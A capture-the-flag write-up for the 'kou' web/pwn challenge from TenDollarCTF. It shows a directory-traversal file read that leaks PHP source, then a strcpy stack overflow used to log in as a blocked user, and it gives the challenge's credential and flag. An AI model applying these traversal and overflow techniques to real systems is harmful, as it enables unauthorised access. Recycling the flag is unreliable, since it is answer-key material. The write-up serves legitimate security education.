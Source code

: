 # TenDollarCTF 3rd - kou

## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

It have 4 menu in this site. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

This site handles the page through the p parameter.

`http://web2.tendollar.kr:10101/?p=home`

p parameter is not allow wrapper and directory traversal.

There is a Secret Data in the Article menu.

If you read this, you will not get the contents with the message "You're not admin."

When you request article you can see that it is requested as f parameter.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f parameter is allow directory traversal, but wrapper is not allowed.

Leak index.php.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

Let's take a look at loginchk which seems to be important the pageList.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

It is not allow login as "kou" in loginchk.php.

But, **login** function that verify id and password is not built-ins function.

Maybe, It is called by another modules.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

Next, see the view.php.

It seems that f parameter is being distributed to the page through **loadFile** function.

but, It is not built-ins function, too.

If you request kou.so with f parameter, you will see that you are giving the kou.so file.

Open it !

![](./img1.png)

**loadFile** function just open file using fopen function.

Next, I see the **login** function.

![](./img2.png)

It is verfying to input value(id, pw) using loginchk function.

![](./img3.png)

**loginchk** function is compare id and pw to "kou" and "1e0c6abede7ff7184c3cefe606f9760a".

but, id can't contain "kou" because of loginchk.php.

Vulnerability is **login function**.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

It copy input value to _id and _pw using strcpy.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

If you look at stacks of _id and _pw, you can see _pw followed by _id.

And copy id, then copy pw, but strcpy don't check length.

It is occur **<u>stack overflow</u>**.

If pw is inputed by "1e0c6abede7ff7184c3cefe606f9760akou", then _id is "kou" and _pw is "1e0c6abede7ff7184c3cefe606f9760a".

So, you can login as kou.

Now when you log in with id = a, pw = 1e0c6abede7ff7184c3cefe606f9760akou on the login page, you can login as kou.

After login as kou, you can read Secret Data and get Flag!

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

